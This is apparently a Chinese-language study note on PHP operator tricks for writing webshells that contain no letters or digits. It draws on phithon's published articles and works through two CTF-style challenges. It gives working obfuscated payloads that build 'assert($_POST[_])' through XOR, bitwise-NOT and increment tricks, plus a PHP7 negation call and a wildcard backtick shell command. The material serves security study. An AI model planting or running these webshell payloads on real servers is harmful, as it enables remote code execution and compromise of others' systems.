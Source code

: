 # 运算符

## 参考

- https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

- https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

- https://www.php.net/manual/zh/language.operators.bitwise.php

- http://php.net/manual/zh/language.operators.increment.php

## 前言

通过phithon师傅的文章整理学习PHP运算符中的Trick。主要通过两段代码进项学习~，其中也包括了一些`Linux`下的一些Trick。

## 代码1

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

思路是，将非字母、数字的字符经过各种变换，最后能构造出a-z中任意一个字符。然后再利用PHP允许动态函数执行的特点，拼接处一个函数名，如“assert”，然后动态执行之即可。

#### 利用字符串异或（PHP5

代码如下：

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

结果![](../images/19-9-28_PHP_运算符_1.jpg)

#### 利用字符串异或（PHP5

利用UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`

![](../images/19-9-28_PHP_运算符_2.jpg)

随便选取一篇文章，写脚本跑一下得到如下：

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```

以上还利用了PHP的弱类型特性。因为要获取`'和'{2}`，就必须有数字2。而PHP由于弱类型这个特性，true的值为1，故`true+true==2`，也就是`('>'>'<')+('>'>'<')==2`。

结果：

![](../images/19-9-28_PHP_运算符_3.jpg)

#### 递增／递减运算符（PHP5

利用数组转化为字符串其值为`Array`，获取字母`A`，通过PHP的`'a'++ => 'b'`特性，可以获取所有的字母。其次，PHP的变量名不区分大小写（区分大小写，也可以获取`Array`的小a

![](../images/19-9-28_PHP_运算符_4.jpg)

 利用代码如下：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

结果如下：

![](../images/19-9-28_PHP_运算符_5.jpg)

## 代码2

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
```

这道题目多了两个限制

- 长度限制为`<=35`
- 除了数字和字母，也不能包括`_`和`$`

#### 取反（PHP7

PHP7前是不允许用`($a)();`这样的方法来执行动态函数的，但PHP7中增加了对此的支持。所以，我们可以通过`('phpinfo')();`来执行函数，第一个括号中可以是任意PHP表达式。如下：

```php
<?php
(~urldecode('%8F%97%8F%96%91%99%90'))();
?>
```

#### Shell（PHP5

利用Linux的通配符，`.  xx`执行脚本的特性，以及PHP使用反引号执行命令的特点，得到如下：

```php
?><?=`. /???/????????[@-[]`;?>
```

结果：

![](../images/19-9-28_PHP_运算符_6.jpg)
